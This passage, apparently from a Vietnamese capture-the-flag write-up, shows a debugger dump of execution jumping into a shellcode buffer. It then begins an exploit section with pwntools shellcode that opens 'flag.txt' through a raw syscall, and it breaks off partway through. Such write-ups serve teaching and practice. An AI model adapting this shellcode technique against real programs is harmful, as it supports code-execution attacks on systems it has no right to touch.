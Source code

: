 - ta có thể thấy rõ hơn : 

```cs
 RAX  0
 RBX  0
 RCX  0
 RDX  0
 RDI  0
 RSI  0
 R8   0
 R9   0
 R10  0
 R11  0
 R12  0
 R13  0
 R14  0
 R15  0x4f4331aab000 ◂— xor r15, r15
 RBP  0
 RSP  0
*RIP  0x4f4331aab000 ◂— xor r15, r15
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]
   0x555555555833 <main+649>    jmp    r15                         <0x4f4331aab000>
 ► 0x4f4331aab000               xor    r15, r15               R15 => 0
   0x4f4331aab003               add    byte ptr [rax], al
   0x4f4331aab005               add    byte ptr [rax], al
   0x4f4331aab007               add    byte ptr [rax], al
   0x4f4331aab009               add    byte ptr [rax], al
   0x4f4331aab00b               add    byte ptr [rax], al
   0x4f4331aab00d               add    byte ptr [rax], al
   0x4f4331aab00f               add    byte ptr [rax], al
   0x4f4331aab011               add    byte ptr [rax], al
   0x4f4331aab013               add    byte ptr [rax], al
```

### exploit

- đầu tiên ta sẽ setup cho open để có 1 con trỏ tới chuỗi flag.txt , ta sẽ tính toán như sau : 

```c
sc = asm(f'''
        mov rax, 0x2
        lea rdi, [rip]+0x17-7
        mov rsi, 0x0
        mov rdx, 0x4000
        syscall

         ''')
sc += b'flag.txt'
input()
print(len(sc)-len(asm('mov rax, 0x2; lea rdi, [rip]+01;')))
```
